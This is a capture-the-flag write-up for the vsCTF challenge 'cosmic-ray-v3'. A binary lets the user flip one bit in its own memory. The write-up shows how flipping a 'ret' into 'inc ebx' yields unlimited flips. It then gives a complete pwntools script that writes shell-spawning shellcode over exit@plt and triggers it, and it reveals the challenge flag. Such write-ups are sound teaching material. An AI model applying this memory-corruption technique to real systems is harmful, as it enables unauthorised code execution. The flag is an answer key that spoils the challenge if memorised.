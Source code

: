 # cosmic-ray-v3 \[468 Points] (69 Solves)
```
I promise it's the last one. The grand finale to the cosmic trinity. Good luck!
```
Attached is [dist/](./dist)

---

## Writeup
Decompiling the binary, we find the following function (named `cosmic_ray`)
```c
puts("Enter an address to send a cosmic ray through:");
__isoc99_scanf("0x%lx",&local_30);
/* snip */

local_10 = open("/proc/self/mem",2);
lseek(local_10,local_30,0);
read(local_10,&local_25,1);
/* snip */

puts("Enter the bit position to flip:");
__isoc99_scanf(&DAT_00402098,&local_24);
getchar();

if ((-1 < local_24) && (local_24 < 8)) {
  local_20 = flip_bit(local_18,local_24);
  local_26 = binary_to_byte(local_20);

  putchar('\n');
  printf("Bit succesfully flipped! New value is %d\n\n",(ulong)(uint)(int)local_26);
  lseek(local_10,local_30,0);
  write(local_10,&local_26,1);
  return 0;
}

exit(1)
```
As you can see, we **load the memory of the process itself**, and allowing the user
to **flip any one bit in the memory**. \
This is of course a reference to actual cosmic rays randomly flipping a bit in
old hardware and causing problems.[^1]

Alright, so using _**one**_ flipped bit we need to get RCE. _How do we know what bit to
flip though?_

Interestingly, this challenge **isn't the first iteration of the idea**, and luckily,
my teammate, [ItayB](https://itaybel.github.io/), who solved the v2 last year,
recognized it, and shared [his writeup](https://itaybel.github.io/vsctf2023chals/#cosmic-ray-v2)
with me.

So last year, ItayB used the one bit flip to change _the address in a `jz` of a
canary_ check to get **infinite flips**. With infinite flips he then wrote shellcode
to `plt` of exit.

Ok, but this year we don't have a canary check. But it's clear **we want to get
more flips!**

After looking for some time at the disassembly to find what we could flip, I
noticed a crucial flaw in the challenge \
![Disassembly of cosmic_ray which ends right above main](./images/cosmicrayv3_ret.png) \
**The `cosmic_ray` is right above main!**

_**If only we could change the `ret` into anything else**_, that instead of **returning**,
would **fall-through back into main**, we would basically create a recursive infinite
loop!

I converted the `ret` instruction to a binary representation, and eventually,
found a suitable bit to flip
```py
>>> from pwn import *
>>> context.arch = 'amd64'
>>> bin(asm('ret')[0])
'0b11000011'
>>> disasm(bytes([0b01000011])) # flipped the left most bit
'   0:   43                      inc    ebx'
```
`inc ebx` - won't crash the code and allows the code to continue running downwards. \
Thus flipping this bit, would make **`cosmic_ray` loop back into main
and allow us to get infinite flips!**

From here, similar to ItayB's solve, I dumped with `gdb` the bytes of exit@plt,
(using `x/100b 0x4011a0`) and used them to calculate which bits I should flip to
get the shellcode. \
When the shell code is ready, all is left is to call `exit` and get the sweet RCE!

```py
io = start()

exit_bytes = [0xf3, 0x0f, 0x1e, 0xfa, 0xf2, 0xff, 0x25, 0x5d, 0x2e, 0x00, 0x00, 0x0f, 0x1f, 0x44, 0x00, 0x00, 0xf3, 0x0f, 0x1e, 0xfa, 0x31, 0xed, 0x49, 0x89, 0xd1, 0x5e, 0x48, 0x89, 0xe2, 0x48, 0x83, 0xe4, 0xf0, 0x50, 0x54, 0x45, 0x31, 0xc0, 0x31, 0xc9, 0x48, 0xc7, 0xc7, 0xab, 0x15, 0x40, 0x00, 0xff, 0x15, 0x3b, 0x2e, 0x00, 0x00, 0xf4, 0x66, 0x2e, 0x0f, 0x1f, 0x84, 0x00, 0x00, 0x00, 0x00, 0x00, 0xf3, 0x0f, 0x1e, 0xfa, 0xc3, 0x66, 0x2e, 0x0f, 0x1f, 0x84, 0x00, 0x00, 0x00, 0x00, 0x00, 0x90, 0xb8, 0x10, 0x40, 0x40, 0x00, 0x48, 0x3d, 0x10, 0x40, 0x40, 0x00, 0x74, 0x13, 0xb8, 0x00, 0x00, 0x00, 0x00, 0x48, 0x85]
exit_address = 0x401180
desired_bytes = asm(shellcraft.sh())

def flip(address, bit):
    io.recvuntil(b"through:\n")

    io.sendline(hex(address).encode())
    io.recvuntil(b"flip:")
    io.sendline(str(bit).encode())


flip(0x4015aa, 0) # Flip the MSB (bit number 0) to change RET into `inc ebx`

curr_address = exit_address
for i in range(len(desired_bytes)):
    shellcode_bits = bin(desired_bytes[i])[2:]
    exit_bits = bin(exit_bytes[i])[2:]

    # Fill 0's at the start

    shellcode_bits = "0" * (8 - len(shellcode_bits)) + shellcode_bits 
    exit_bits = "0" * (8 - len(exit_bits)) + exit_bits

    for i in range(len(exit_bits)):
        if exit_bits[i] != shellcode_bits[i]:
            flip(curr_address, i)
    curr_address += 1

flip(0, -1) # Trigger exit@plt and thus the shellcode

io.interactive()
```

[solve.py](./solve.py)

### Success!

**Flag:** `vsctf{4nd_th3_st4r5_4l1gn_0nc3_m0r3}`

[^1]: https://en.wikipedia.org/wiki/Soft_error
